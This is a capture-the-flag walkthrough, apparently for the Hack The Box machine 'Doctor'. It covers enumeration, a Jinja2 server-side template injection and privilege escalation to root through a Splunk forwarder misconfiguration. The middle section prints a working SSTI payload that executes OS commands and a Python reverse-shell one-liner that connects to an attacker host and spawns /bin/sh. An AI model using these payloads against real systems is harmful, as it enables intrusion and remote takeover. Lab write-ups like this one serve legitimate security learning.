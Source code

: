 # User access

## Scan

As always I started by running nmap on the target IP in search of open ports

![](/doctor/img/nmap.PNG)

This is a Linux machine and ports 22, 80 and 8089 are open, this is more than enough. I proceeded by visiting the webserver on port 80 and running gobuster looking for some useful directories.

## Enumeration

There's nothing interesting enumerating the webserver's directories, I used a small wordlist, you can try something bigger but I didn't need this anyway.

![](/doctor/img/dirb.PNG)

## Webserver

This is the website homepage, there is nothing really interesting except for a domain named **doctors.htb**

![](/doctor/img/webserver.PNG)

## Virtual host

I added _doctors.htb_ into my **/etc/hosts** file and visited the URL again, now there's **actually** something interesting: a login page!

![](/doctor/img/login.PNG)

At this point I thought that I might have found something more useful enumerating the directories. So I ran gobuster once again.

![](/doctor/img/dirb-vhost.PNG)

Nothing out of the ordinary, apparently. I noticed an _archive_ folder and explored in the URL. Nothing happens but it's quite suspicious.

## Messing up with login/register page

I've tried some simple SQL injection but nothing worked, so I started looking around for other pages, I first checked the register page. Is a simple form, I didn't find anything interesting, XSS doesn't work and there are no exploitable file uploads either. At this point I tried to register a new user.

At this point you are redirected to the homepage, there is a section when you can submit a post with a title and a content. The post will be shown on the homepage.

![](/doctor/img/board.PNG) ![](/doctor/img/homepage.PNG)

I think there might be a vulnerability here somewhere, so I documented myself about how exploiting form submissions and I found an interesting document about **Server-side Template Injection** (SSTI). You can find a nicely documented methodology on [this repo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection).

Now we might have a initial foothold on what to do on this machine.

## Exploiting the template

By looking the graph in the previous repo (under the "Methodology" section) there is a nice [flowchart](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Server%20Side%20Template%20Injection/Images/serverside.png) where we notice how we can exploit a template by injecting some values in order to find if they are processed and, at the end, discover which framework is running under the webserver.

The real question now is: **where should the expressions be evaluated?** Looking around I remembered the **archive** directory I found while enumerating. So I wrote a very simple payload based on the flowchart and checked out the archive directory. Bingo!

![](/doctor/img/example-payload.PNG)  

This was the result of the expression:

![](/doctor/img/example-payload2.PNG)

After a couple of attempts following the flowchart I found that the framework under the hood is Jinja2, which is written in Python. This is a very useful information as I'm now aware of the language I have to use if I want to write and run payloads.

What I had to do was to write a python payload in order to open a shell on my machine.

## Writing the payload

This is honestly the part where I struggled the most. Mostly because I didn't know the Jinja engine. The first part was to write a python script in order to run simple commands, so I tried things like {{import os; os.system("whoami");}} but nothing worked. Since I was stuck on this part I asked help to users on HTB chats and forums for a nudge. I found this piece of conversation to be somehow helpful.

![](/doctor/img/chat.PNG)

I was actually missing that the script were ran under a backend engine, so I needed to "crawl" into the engine context in order to require the objects and the methods that I needed to run my payload.

While digging on the internet I found an interesting article about [SSTI on Jinja2](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/). Here you can find a simple explanation about MRO (which is a way you can exploit in order to run your payload) and the global variables stored into jinja's context. In particular we have the **request** object, from which we can write something like this:

{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

<table style="border: 1px;"></table>

From this stub we can write the payload we need in order to open a shell on our machine. Some basic socket code did the trick for me. This was the code I used:

```python
import socket, os, pty  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # create a basic socket with ipv4 addresses and TCP protocol  
s.connect(("x.x.x.x", 4444)) # connect to your local machine using port 4444  
os.dup2(s.fileno(), 0) # duplicate the socket descriptor on your standard input (0), standard output (1) and standard error (2), in order to display commands output on your terminal  
os.dup2(s.fileno(), 1)  
os.dup2(s.fileno(), 2)  
pty.spawn("/bin/sh") # spawn a shell on your terminal  
```

put this code (without the # comments) in the popen() function, calling the script using "python3 -c". This should be your final payload:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('python -c '\ import socket, os, pty; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("x.x.x.x", 4444)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); pty.spawn("/bin/sh"); \'').read()}}
```

## Shell and privesc

Obviously no shell will spawn unless you put your machine on listening on an external port, so I ran netcat in listening mode on port 4444. Ran the URL on the /archive endpoint, a shell will spawn on your terminal!

![](/doctor/img/shell.PNG)

By enumerating on the machine we can find some useful information. There are 2 users, _web_ and _shaun_, and we are logged as the first one. As web, we can't do anything except looking for interesting files. I followed [this guide](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) for basic privesc commands and in the /var/log/apache2/ directory I found a file named "backup". By displaying its content on screen I finally found a password!

![](/doctor/img/user_password.PNG)

...Or at least it looks like one. The first thing I tried is to switch from web to shaun. So I used the _su_ command using the password I found, aaaaand we are in! Right now we can search for the user.txt flag, it's located in the /home/shaun directory, so we cat the content and we finally have user.

![](/doctor/img/user-txt.PNG)

# From user to root

I found this part easier than user, I didn't had much informations, but there was one service that I didn't even checked: **the splunk service on port 8089**. Since I didn't found nothing useful by navigating on the service via browser, I searched on the internet for a privesc tool and I found [this one](https://github.com/cnotin/SplunkWhisperer2) that exploits misconfigurations on the service. Before using this tool, I suggest to read [here](https://airman604.medium.com/splunk-universal-forwarder-hijacking-5899c3e0e6b2) in order to fully comprehend the vulnerability you are exploiting.

By the way, in order to use this tool, I cloned the repository, opened another terminal window and ran nc on port 9999 and used the PySplunkWhisperer_remote script following the usage instructions. The script did everything for me, and on the netcat window I had a shell as root!

![](/doctor/img/root_shell.PNG)  

![](/doctor/img/root_shell2.PNG)